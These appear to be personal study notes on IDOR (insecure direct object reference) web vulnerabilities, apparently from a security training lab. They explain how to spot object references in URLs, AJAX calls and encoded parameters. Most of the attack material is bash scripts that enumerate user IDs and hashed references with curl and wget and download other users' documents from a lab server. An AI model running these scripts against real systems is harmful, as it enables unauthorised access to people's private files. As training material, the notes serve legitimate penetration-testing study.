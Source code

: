 # IDOR
IDOR is among the most common web vulnerabilities and can lead to accessing data that should not be accessible by attackers. What makes this attack very common is essentially the lack of a solid access control system on the back-end. As web applications store users' files and information, they may use sequential numbers or user IDs to identify each item. Suppose the web application lacks a robust access control mechanism and exposes direct references to files and resources. In that case, we may access other users' files and information by simply guessing or calculating their file IDs.

# Identifying IDORs
## URL Parameters & APIs
The very first step of exploiting IDOR vulnerabilities is identifying Direct Object References. Whenever we receive a specific file or resource, we should study the HTTP requests to look for URL parameters or APIs with an object reference (e.g. ?uid=1 or ?filename=file_1.pdf). These are mostly found in URL parameters or APIs but may also be found in other HTTP headers, like cookies.

In the most basic cases, we can try incrementing the values of the object references to retrieve other data, like (?uid=2) or (?filename=file_2.pdf). We can also use a fuzzing application to try thousands of variations and see if they return any data. Any successful hits to files that are not our own would indicate an IDOR vulnerability.

## AJAX Calls
We may also be able to identify unused parameters or APIs in the front-end code in the form of JavaScript AJAX calls. Some web applications developed in JavaScript frameworks may insecurely place all function calls on the front-end and use the appropriate ones based on the user role.

For example, if we did not have an admin account, only the user-level functions would be used, while the admin functions would be disabled. However, we may still be able to find the admin functions if we look into the front-end JavaScript code and may be able to identify AJAX calls to specific end-points or APIs that contain direct object references. If we identify direct object references in the JavaScript code, we can test them for IDOR vulnerabilities.

## Understand Hashing/Encoding
Some web applications may not use simple sequential numbers as object references but may encode the reference or hash it instead. If we find such parameters using encoded or hashed values, we may still be able to exploit them if there is no access control system on the back-end.

## Compare User Roles
If we want to perform more advanced IDOR attacks, we may need to register multiple users and compare their HTTP requests and object references. This may allow us to understand how the URL parameters and unique identifiers are being calculated and then calculate them for other users to gather their data.

# Mass Enumeration
We can click on [CTRL+SHIFT+C] in Firefox to enable the element inspector, and then click on any of the links to view their HTML source code.

We can pick any unique word to be able to grep the link of the file. In our case, we see that each link starts with <li class='pure-tree_link'>.
**GET method to find resources**
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

**POST method to find resources**
```bash
#!/bin/bash

# Base URL
base_url="http://94.237.49.212:52909"

# User-Agent string for curl
user_agent="Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"

# Loop through uid from 1 to 20
for uid in {1..20}; do

  echo "Fetching documents for uid=$uid..."

    # Make the POST request and extract file paths
  files=$(curl "${base_url}/documents.php" --compressed -X POST \

    -H "User-Agent: ${user_agent}" \

    -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \

    -H "Accept-Language: en-US,en;q=0.5" \

    -H "Accept-Encoding: gzip, deflate" \

    -H "Content-Type: application/x-www-form-urlencoded" \

    -H "Origin: ${base_url}" \

    -H "Connection: keep-alive" \

    -H "Referer: ${base_url}/" \

    -H "Upgrade-Insecure-Requests: 1" \

    --data-raw "uid=${uid}" | grep -oP "\/documents.*?\.(pdf|doc|docx|txt|xlsx|xls|ppt|pptx)")

  # Download each file found

  for file in $files; do

    file_url="${base_url}${file}"

    echo "Downloading $file_url..."

    wget -q "$file_url" -P downloaded_files

  done

done


echo "Download process complete."
```

# Bypassing Encoded References
**GET method to find resources**
```bash
#!/bin/bash
for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0 | tr -d ' -'); do
        curl -sOJ "http://94.237.49.212:52909/download.php?contract=$hash"
    done
done
```

**POST method to find resources**
```bash
#!/bin/bash
for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

**Cat files content**
```bash
#!/bin/bash
# Loop through all files in the current directory
for file in *; do
    # Check if the file starts with "contract"
    if [[ -f "$file" && "$file" == contract* ]]; then
        echo "Contents of $file:"
        cat "$file"
        echo ""  # Add a newline for better readability between file contents
    fi
done
```

## IDOR in Insecure APIs
Intercept a request in Burp.

- Change unique objects identifiers GET/POST
- Forward every request to map endpoints
- Change different parameters(role) 
- Perform HTTP Verb Tampering

